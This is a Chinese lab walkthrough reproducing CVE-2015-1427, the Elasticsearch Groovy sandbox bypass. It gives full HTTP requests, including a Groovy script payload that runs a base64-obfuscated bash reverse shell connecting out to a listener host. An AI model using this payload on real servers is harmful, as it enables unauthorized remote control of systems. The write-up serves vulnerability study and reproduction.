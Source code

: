 # ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427）

> 漏洞说明

Elasticsearch是一个基于Lucene的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于RESTful web接口。Elasticsearch是用Java语言开发的，并作为Apache许可条款下的开放源码发布，是一种流行的企业级搜索引擎。

ElasticSearch有脚本运行的功能，能够非常方便地对查询出来的数据再加工处理。  ElasticSearch用的脚本引擎是MVEL，这个引擎没有做什么的防护，所以直接能够运行随意代码。  而在ElasticSearch里，默认配置是打开动态脚本功能的，因此用户能够直接通过http请求，运行随意代码。



> 前提条件



> 利用工具



> 漏洞复现

访问http://192.168.40.77:9200/可以看到es成功启动

![image-20230103001810721](../img/ElasticSearch_CVE-2015-1427/image-20230103001810721.png)

构造请求数据包添加一条数据

```http
POST http://192.168.40.77:9200/website/blog/ HTTP/1.1
Host: 192.168.40.77:9200
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
 "name": "tomato"
}

```

返回201，添加成功

![image-20230103001856045](../img/ElasticSearch_CVE-2015-1427/image-20230103001856045.png)

验证命令执行

![image-20230103002009337](../img/ElasticSearch_CVE-2015-1427/image-20230103002009337.png)

开启本地监听，将执行命令换成反弹shell语句

```http
POST http://192.168.40.77:9200/_search?pretty HTTP/1.1
Host: 192.168.40.77:9200
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 249

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40MC4xLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}\").getText()"}}}

```

发送数据包

![image-20230103002100870](../img/ElasticSearch_CVE-2015-1427/image-20230103002100870.png)

成功反弹shell

![image-20230103002114581](../img/ElasticSearch_CVE-2015-1427/image-20230103002114581.png)
